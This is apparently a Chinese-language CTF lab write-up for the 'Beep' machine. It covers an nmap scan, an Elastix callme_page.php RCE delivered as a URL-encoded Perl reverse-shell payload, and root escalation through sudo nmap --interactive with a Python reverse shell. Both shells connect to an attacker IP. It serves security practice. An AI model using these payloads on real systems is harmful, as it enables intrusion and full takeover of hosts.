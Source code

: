 # beep

## 信息收集

```
nmap -vv -sV -sT -T 4 10.129.1.226
```

```
PORT      STATE SERVICE    REASON  VERSION
22/tcp    open  ssh        syn-ack OpenSSH 4.3 (protocol 2.0)
25/tcp    open  smtp?      syn-ack
80/tcp    open  http       syn-ack Apache httpd 2.2.3
110/tcp   open  pop3?      syn-ack
111/tcp   open  rpcbind    syn-ack 2 (RPC #100000)
143/tcp   open  imap?      syn-ack
443/tcp   open  ssl/https? syn-ack
993/tcp   open  imaps?     syn-ack
995/tcp   open  pop3s?     syn-ack
3306/tcp  open  mysql?     syn-ack
4445/tcp  open  upnotifyp? syn-ack
10000/tcp open  http       syn-ack MiniServ 1.570 (Webmin httpd)
Service Info: Host: 127.0.0.1
```

访问80端口，会被重定向到443端口，使用了低版本的TLS协议。在火狐里输入about:config,搜索tls.version,将tls最小的支持版本改为TLS V1

![image-20230503002320882](/image/image-20230503002320882.png)

后续就可以无视风险正常访问了:laughing:

![image-20230502172812207](/image/image-20230502172812207.png)

## 漏洞利用

这里查询了一下elastix的漏洞

```shell
searchsploit elastix
```

有个RCE,贴上exp

```
https://10.129.1.226/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.16.9%3a1234%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A
```

这里需要注意，必须按照payload的格式对一些特殊符号url编码，第一次利用的时候url decode成明文，发现并没有收到shell。

拿到shell后利用python创建个交互式终端

```
python -c 'import pty; pty.spawn ("/bin/bash")'
```

## 权限提升

```
sudo -l
```

这里卡住了，查了下可以利用nmap的---interactive提权

```
sudo nmap --interactive
nmap> !python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.16.9',1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
┌──(root💀Chinchin)-[/usr/…/modules/exploits/unix/http]
└─# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.9] from (UNKNOWN) [10.129.1.226] 33372
bash: no job control in this shell
bash-3.2# whoami
root

```


